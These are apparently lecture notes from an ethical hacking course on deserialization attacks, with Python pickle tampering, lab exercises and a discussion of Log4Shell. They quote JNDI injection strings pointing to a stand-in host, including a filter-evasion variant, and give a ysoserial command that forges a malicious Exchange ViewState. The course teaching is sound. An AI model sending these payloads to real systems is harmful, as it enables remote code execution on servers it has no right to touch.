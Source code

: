 * Deserialization attacks
:PROPERTIES:
:CUSTOM_ID: deserialization-attacks
:END:
** Ethical hacking 2023
:PROPERTIES:
:CUSTOM_ID: ethical-hacking-2023
:END:
** Alessandro Bruni
:PROPERTIES:
:CUSTOM_ID: alessandro-bruni
:END:
* Intro
:PROPERTIES:
:CUSTOM_ID: intro
:END:
- serialization/deserialization is a widely-used concept in modern
  languages for storing objects (structured data)

#+begin_src python
# example in Python:
import pickle

class A:
    def __init__(self, x):
        print("construct " + x)
        self.x = x
    
    def __del__(self):
        print("destruct " + self.x)
#+end_src

#+begin_src python
# Serialize the class
a = A("hello")
a_bytes = pickle.dumps(a)
del(a)
#+end_src

#+begin_example
construct hello
destruct hello
#+end_example

#+begin_src python
# Deserialize the class
print(a_bytes)
a_bytes = a_bytes[:-5] + b'a' + a_bytes[-4:]
a = pickle.loads(a_bytes)
del(a)
#+end_src

#+begin_example
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x01A\x94\x93\x94)\x81\x94}\x94\x8c\x01x\x94\x8c\x05hello\x94sb.'
destruct hella
#+end_example

** The problem?
:PROPERTIES:
:CUSTOM_ID: the-problem
:END:
Object integrity is lost once you pass it through some untrusted
channel - give it to the user to store some temporary data (think
authentication cookies stored this way) - send over the network - store
it in a database

** The solution?
:PROPERTIES:
:CUSTOM_ID: the-solution
:END:
- sanity checks required: e.g. cryptographically sign serialized objects
  to maintain integrity
- Java (e.g. RMI) does type checking: the receiving end deserializes the
  object, checks the type, if the type does not match then destroy the
  object

** OWASP resources
:PROPERTIES:
:CUSTOM_ID: owasp-resources
:END:
- [[https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/][A08:2021
  -- Software and Data Integrity Failures]]
- [[https://www.owasp.org/index.php/Deserialization_Cheat_Sheet][Deserialization
  cheatsheet]]

* Exercise: OWASP WebGoat
:PROPERTIES:
:CUSTOM_ID: exercise-owasp-webgoat
:END:
- Run the following docker image:
  https://hub.docker.com/r/webgoat/goatandwolf

- Go through A08 - software and data integrity

** Exercise: do Natas 26
:PROPERTIES:
:CUSTOM_ID: exercise-do-natas-26
:END:
http://natas26.natas.labs.overthewire.org/

#+begin_example
username = natas26
password = oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
#+end_example

** Remote Code Execution with destructors
:PROPERTIES:
:CUSTOM_ID: remote-code-execution-with-destructors
:END:
- RMI receives an object of a class present in your classpath
- constructs the object, checks the type (mismatch), destroys the object
- the destructor executes arbitrary code from the user
- if anywhere in your classpath you have an object that executes
  arbitrary code upon destruction, you have a path to RCE

** Exercise: Deserialize to B()
:PROPERTIES:
:CUSTOM_ID: exercise-deserialize-to-b
:END:
[[./code/3-deserialization/Serial.java][Serial.java]]

** Exercise: Serial Killer
:PROPERTIES:
:CUSTOM_ID: exercise-serial-killer
:END:
- download ysoserial
- go to
  https://github.com/archang31/aacs4-writeups/tree/master/BinaryExploitation/SerialKiller

** log4shell [[[https://en.wikipedia.org/wiki/Log4Shell#Behavior][wikipedia]]]
:PROPERTIES:
:CUSTOM_ID: log4shell-wikipedia
:END:

#+begin_quote
The Java Naming and Directory Interface (JNDI) allows for lookup of Java
objects at program runtime given a path to their data. [...]

#+end_quote

#+begin_quote
In the default configuration, when logging a string, Log4j 2 performs
string substitution on expressions of the form =${prefix:name}=. [...]
Among the recognized expressions is =${jndi:<lookup>};= by specifying
the lookup to be through LDAP, an arbitrary URL may be queried and
loaded as Java object data. =${jndi:ldap://example.com/file}= [...] will
load data from that URL if connected to the Internet. By inputting a
string that is logged, an attacker can load and execute malicious code
hosted on a public URL. [...]

#+end_quote

#+begin_quote
Because HTTP requests are frequently logged, a common attack vector is
placing the malicious string in the HTTP request URL or a commonly
logged HTTP header, such as User-Agent.

#+end_quote

#+begin_quote
Early mitigations included blocking any requests containing potentially
malicious contents, such as =${jndi=. Such basic string matching
solutions can be circumvented by obfuscating the request:
=${${lower:j}ndi=, for example, will be converted into a JNDI lookup
after performing the lowercase operation on the letter =j=. Even if an
input, such as a first name, is not immediately logged, it may be later
logged during internal processing and its contents executed.

#+end_quote

#+caption: log4shell diagram
[[file:img/log4j_attack.jpg]]

Source:
[[https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/][Swiss
CERT]]

More resources:
[[https://github.com/pentesterland/Log4Shell][pentesterland]]

** Exercise: exploit log4shell
:PROPERTIES:
:CUSTOM_ID: exercise-exploit-log4shell
:END:
- Join [[https://tryhackme.com/room/solar][tryhackme/solar]]
- Follow the [[https://www.youtube.com/watch?v=PGJVLjgC2e4][video
  walkthrough by cryptocat]]

* JEP 290
:PROPERTIES:
:CUSTOM_ID: jep-290
:END:
- [[http://openjdk.java.net/jeps/290][JEP 290]]
- [[https://mogwailabs.de/de/blog/2019/03/attacking-java-rmi-services-after-jep-290/][Attacking
  Java RMI services after JEP 290]]

** [[https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0688][CVE-2020-0688]]: RCE on MS Exchange
:PROPERTIES:
:CUSTOM_ID: cve-2020-0688-rce-on-ms-exchange
:END:
- Released Feb.25 2020

- Exchange servers had the same =validationKey= and =decryptionKey= on
  all installs

- =ViewState= is server-side data that ASP.NET web applications store in
  serialized format on the client
  [[file:img/4-deserialization-attacks_files/image.png]]

- Having access to the secret keys (it was the same for all MS Exchange
  installs) it was possible to craft a malicious =ViewState= that runs
  arbitrary code on the server:

#+begin_example
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo OOOPS!!! > c:/Vuln_Server.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="05ae4b41-51e1-4c3a-9241-6b87b169d663" --isdebug –islegacy
#+end_example

- 
  #+caption: image.png
  [[attachment:image.png]]

Source:
[[https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys][Zero
Day Initiative]]

* Back to first principles
:PROPERTIES:
:CUSTOM_ID: back-to-first-principles
:END:
#+caption: image.png
[[file:img/4-deserialization-attacks_files/image.png]]

* References
:PROPERTIES:
:CUSTOM_ID: references
:END:
- [[http://frohoff.github.io/appseccali-marshalling-pickles/][Marshalling
  Pickles (Slides + Video)]]
- [[https://github.com/frohoff/ysoserial][ysoserial: Deserialization
  attack framework for Java]]
- [[https://github.com/pwntester/ysoserial.net][ysoserial.net: .NET
  deserialization attack framework]]
- [[https://paper.bobylive.com/Meeting_Papers/BlackHat/USA-2012/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf][Are
  you my type - blackhat 2012]]
- [[https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys][Remote
  code execution on Microsoft Exchange]]
- [[https://www.youtube.com/watch?v=w2F67LbEtnk][Log4j vulnerability
  explained]]
- https://blog.tneitzel.eu/posts/01-attacking-java-rmi-via-ssrf/
